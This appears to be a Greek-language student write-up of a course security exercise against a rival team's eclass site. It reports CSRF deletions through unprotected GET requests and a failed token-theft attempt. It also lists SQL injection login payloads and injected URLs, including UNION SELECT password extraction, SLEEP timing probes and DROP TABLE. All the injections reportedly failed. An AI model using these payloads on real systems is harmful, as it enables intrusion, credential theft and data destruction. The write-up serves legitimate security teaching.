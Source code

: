 Συγκεκριμένα αυτές οι 2 ενέργειες αναφερόντουσαν σε GET αιτήματα που δεν είχαν προστατευθεί με token στο URL. Καταφέραμε να προκαλέσουμε τη διαφραφή ενός assignment καθώς και τη διαγραφή μιας κατηγορίας ενός forum. Αυτό που επίσης προσπαθήμαε ήταν κάπως να κλέψουμε το token του χρήστη καθώς αντιληφθήκαμε οτι 
1) το token δεν άλλαζε παρά μόνο αν γινόταν εκ νέου login 
2) η μεταβλητή token είχε το προφανές όνομα **token**

Έτσι προσπαθήσαμε κάπως να κάνουμε τον χρήστη να κοινοποιήσει το token του έτσι ώστε να μπορέσουμε να το χρησιμοποιήσουμε και σε άλλα ατιήματα όμως δεν τα καταφέραμε. 

### SQLI επιθέσεις 

## Subverting application logic
Προσπαθήσαμε κάνοντας login στο αντίπαλο site με 

  • drunkadmin'—
  • drunkadmin'OR 1=1—
  • drunkadmin'UNION SELECT password, null FROM users WHERE username='drunkadmin'—
  • drunkadmin' AND (SELECT COUNT(*) FROM users)=1—
  • drunkadmin' AND SLEEP(10)—
  • drunkadmin'AND (SELECT 1/0 FROM users WHERE username='drunkadmin')—
  • drunkadmin' UNION SELECT password, null FROM users WHERE user_id='1'—
  • drunkadmin'AND (SELECT 1/0 FROM users WHERE user_id='1')—
  • drunkadmin'; DROP TABLE user—
  • drunkadmin' AND LENGTH(password)=0—
  • drunkadmin'/*' OR '1'='1'#
  • drunkadminUNION SELECT 1, 'admin', ''—
  • drunkadmin' AND (SELECT SUBSTR(password, 1, 1) FROM users WHERE username= drunkadmin')='b'—
  • drunkadmin' AND SUBSTRING(password, 1, 1)='a'—
  • drunkadmin''; INSERT INTO log_table (log_message) VALUES ('SQL injected'); --
  • drunkadmin OR 1=1
  • username : " or ""=" και password : " or ""="

## Retrieving hidden data
  • http://ouzovissino.csec.chatzi.org/courses/TMA100/logins?=user_id=1'UNION SELECT username, user_password FROM users--'
  • http://ouzovissino.csec.chatzi.org/courses/TMA100/users?=user_id=1'UNION SELECT username, user_password FROM users--'
  • http://ouzovissino.csec.chatzi.org/index.php/user?user_id=1';DROP TABLE user--
  • http://ouzovissino.csec.chatzi.org/modules/dropbox/index.php?upload=1'OR 1=1 AND (SELECT 1/0 FROM users)--'
  • http://ouzovissino.csec.chatzi.org/modules/dropbox/index.php?upload=1' AND SLEEP(5)--Εδώ ειδα οντως να περιμενει
  • https://ouzovissino.csec.chatzi.org/modules/dropbox/index.php?upload=1 ' OR (SELECT 1/0 FROM pg_statistic)--'
  • http://ouzovissino.csec.chatzi.org/index.php/user?user_id=1 ' AND SLEEP(5)



Σε πολλές από τις δοκιμές που αναφέραμε μας μετέφεραν σε αυτή εδώ τη σελίδα, https://ouzovissino.csec.chatzi.org/index.php/user?username=drunkadmin, που όμως δοκιμάζοντας ξανά Subverting application logic μας γυρνούσε την “original” σελίδα του eclass. Συμπερασματικά, ο,τι δοκιμές κάναμε με SQL Injection απέτυχαν!
